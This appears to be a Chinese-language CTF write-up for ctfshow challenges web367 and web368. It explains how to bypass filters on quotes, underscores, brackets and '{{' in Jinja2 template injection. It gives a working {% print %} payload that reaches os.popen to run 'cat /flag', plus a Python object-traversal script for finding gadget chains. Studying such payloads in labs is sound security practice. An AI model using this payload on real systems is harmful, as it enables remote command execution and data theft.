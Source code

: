 ### ctfshow web367

过滤了单双引号、args、中括号\[\]、下划线、os

和上一个差不多，直接原payload提交

### ctfshow web368

过滤单双引号、args、中括号\[\]、下划线、os、{undefined{undefined

不能使用`{{`来进行提交了，但是我们可以用`{%`来进行绕过

```
?name={%print(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read() %}&a=__globals__&b=os&c=cat /flag
```

第二种也可以采用盲注的办法，写个脚本跑一下

基础太差，找个脚本跑一下吧

```
def search(obj, max_depth):

    visited_clss = []
    visited_objs = []

    def visit(obj, path='obj', depth=0):
        yield path, obj

        if depth == max_depth:
            return

        elif isinstance(obj, (int, float, bool, str, bytes)):
            return

        elif isinstance(obj, type):
            if obj in visited_clss:
                return
            visited_clss.append(obj)
            #print(obj) Enumerates the objects traversed

        else:
            if obj in visited_objs:
                return
            visited_objs.append(obj)

        # attributes
        for name in dir(obj):
            try:
                attr = getattr(obj, name)
            except:
                continue
            yield from visit(attr, '{}.{}'.format(path, name), depth + 1)

        # dict values
        if hasattr(obj, 'items') and callable(obj.items):
            try:
                for k, v in obj.items():
                    yield from visit(v, '{}[{}]'.format(path, repr(k)), depth)
            except:
                pass

        # items
        elif isinstance(obj, (set, list, tuple, frozenset)):
            for i, v in enumerate(obj):
                yield from visit(v, '{}[{}]'.format(path, repr(i)), depth)
```
